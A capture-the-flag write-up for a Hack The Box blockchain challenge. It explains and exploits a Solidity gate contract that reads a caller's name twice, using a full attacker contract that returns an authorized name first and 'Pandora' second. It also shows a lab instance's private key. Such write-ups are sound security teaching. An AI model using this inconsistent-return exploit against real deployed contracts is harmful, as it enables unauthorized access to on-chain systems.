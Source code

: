 # Blockchain: The Art of Deception

- Date: 19.03.2023
- Link: <https://ctf.hackthebox.com/event/821>

## Environment

```
IP1=159.65.62.241:31090
IP2=159.65.62.241:32094
```

Connect to `IP2` to get the connection details:

``` shell-session
$ nc 165.232.108.200 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xaed670f921dc66aa949185dac3a38f78638807bb0932b0340473203431678123
Address         :  0xD91878cAF52230be2645862A639487953a04Dadd
Target contract :  0x5337a93f98ae379b878fB4969Ec9370B83CF5618
Setup contract  :  0x7B59De9FdAd4b0A4B0366677A971A41E24132DBF
```

## Win Condition (Study the Smart Contract)

In the Setup contract we see that in order to solve this challenge, the last
person to enter a *high* security gate needs to be named "Pandora".

``` solidity
function isSolved() public view returns (bool) {
  return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
}
```

The Smart Contract ensures, that we shoot these shots in order (first, second,
third). [Info modifier](https://www.tutorialspoint.com/solidity/solidity_function_modifiers.htm)

``` solidity
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

After studying the Smart Contact in detail, we find the vulnerability is most
likely in the `enter` function:

``` solidity
function enter() external {
  Entrant _entrant = Entrant(msg.sender);

  require(_isAuthorized(_entrant.name()), "Intruder detected");
  lastEntrant = _entrant.name();
}
```

The entrant is set to a value we have control over. It is derived from `msg.sender`.
In Solidity `msg.sender` means the "The entity that sent me this request". So we
can manipulate the `_entrant.name()` by creating a Smart Contact that interacts
with the `HighSecurityGate` Contract:

```solidity
pragma solidity ^0.8.18;

# Copied from HighSecurityGate
interface Entrant { 
    function name() external returns (string memory);
}

contract Attacker is Entrant {
  bool public firstCheck = true;
  string public _name = "Orion";

  function name() external returns (string memory){
    return _name;
  }

}
```

To call the already deployed Smart Contract, I followed the example from here: https://solidity-by-example.org/calling-contract/.

Lets add a method with a parameter pointing to the TARGET contract and call
`enter()` on it:

```
import {HighSecurityGate} from "./FortifiedPerimeter.sol";

...

function callSecGate(HighSecurityGate _gate) external {
  _gate.enter();
}
```

With this we can access the Gate as "Orion".

### Prepare the Exploit

If we look at the `HighSecurityGate` again, we notice that `_entrant.name()` is
called two separate times.

``` solidity
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

Once to check if the entrant is authorized and once again to save the name of
the last person that entered the gate. Notice that there is no check if `_entrant.name()`
returns the same value twice. This is our attack vector :devil:.

We adjust our `Attacker` smart contact so `name` return something different the
second time it is called.

``` solidity
pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Attacker is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }

  // Just in case
  function reset() external {
   firstCheck = true;
  }
}
```

## Execute the Plan

To compile and deploy our Attacker Contact, I used the [Remix VSCode extension](https://marketplace.visualstudio.com/items?itemName=RemixProject.ethereum-remix).

![use-compile-and deploy](images/use-compile-and-deploy.png)

First we connect to the RPC IP given to us by HTB (`IP1` from above):

![set-rpc-connection](images/set-rpc-connection.png)

Then we compile the Smart Contract and deploy it on the blockchain.

![compile-and-deploy-in-remix](images/compile-and-deploy-in-remix.png)

To execute our attack, we supply the target address to our `callSecGate()` method.

![call-attack-function](images/call-attack-function.png)  

Result:  
![attack-transaction-ok](images/attack-transaction-ok.png)

With this we can collect our reward:

``` sh
nc 159.65.62.241 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{...}
```

